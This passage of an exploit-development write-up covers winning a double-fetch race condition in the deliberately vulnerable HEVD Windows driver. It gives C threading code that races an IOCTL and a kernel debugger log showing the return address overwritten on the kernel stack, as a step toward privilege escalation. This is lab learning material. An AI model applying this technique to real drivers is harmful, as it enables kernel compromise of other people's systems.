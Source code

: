 My logic was that if there was a single thread changing the structure 100 times, then hopefully the IOCTL calling thread would drop in between two of these and I would win the race. To make things nice and simple I used global variables, rather than passing pointers between threads (which I will probably tidy up for the final exploit):

```c
// global variables
UserData userData;
char* userBuffer;
HANDLE hDriver;
```

I done a little bit of research around race conditions and I read some different texts around changing the threads priority and setting the processor affinity for each thread. I did this, but was curious to see if the race could be won without doing this, and it turns out it can. Here's the main snippets of my code:

```c
int main() {
    // omitted for brevity ...
    while(TRUE)
    {
        HANDLE handles[2] = { 0 };

        // send the initial IOCTL
        HANDLE tIOCTL = CreateThread(NULL,
            NULL, SendIOCTL, NULL, CREATE_SUSPENDED, NULL);

        // try to win the race
        HANDLE tChangeStruct = CreateThread(NULL,
            NULL, ChangeStruct, NULL, CREATE_SUSPENDED, NULL);

        handles[0] = tIOCTL;
        handles[1] = tChangeStruct;

        ResumeThread(tChangeStruct);
        ResumeThread(tIOCTL);

        // wait for threads
        WaitForMultipleObjects(2, handles, true, INFINITE);
    }
}
```

Notice that my loop will run forever, this isn't going to be a good strategy when it comes to escalating privileges, I will need some way to detect that the race had been won, I decided to think about that later. My focus for now was to win the race and overwrite the return address on the kernel stack.

I ran the code on the target whilst my kernel debugger was attached, and after a few minutes I got a crash:

```
1: kd> g
Access violation - code c0000005 (!!! second chance !!!)
HEVD+0x86952:
fffff800`15fb6952 c3              ret
0: kd> k L5
 # Child-SP          RetAddr               Call Site
00 fffff68f`df25a788 41414141`41414141     HEVD+0x86952
01 fffff68f`df25a790 41414141`41414141     0x41414141`41414141
02 fffff68f`df25a798 41414141`41414141     0x41414141`41414141
03 fffff68f`df25a7a0 41414141`41414141     0x41414141`41414141
04 fffff68f`df25a7a8 41414141`41414141     0x41414141`41414141
```
